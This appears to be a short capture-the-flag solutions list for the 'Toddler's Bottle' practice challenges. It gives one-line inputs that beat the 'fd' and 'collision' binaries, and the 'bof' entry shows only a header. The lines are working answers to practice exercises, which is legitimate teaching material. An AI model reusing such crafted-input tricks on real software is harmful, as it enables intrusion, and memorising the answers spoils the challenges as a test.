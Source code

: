 ## Toddler's Bottle

| fd | Easy | 1pt |
| --- | ---- | --- |

 `echo 'LETMEWIN' | ./fd $(python -c 'print 0x1234')`

| collision | Easy | 3pt |
| --------- | ---- | --- |

 `./col $(python -c 'print "\xDD\x2C\xEA\x03"*4 + "\x78\x56\x34\x12"')`

| bof | Easy | 5pt |
| --- | ---- | --- |
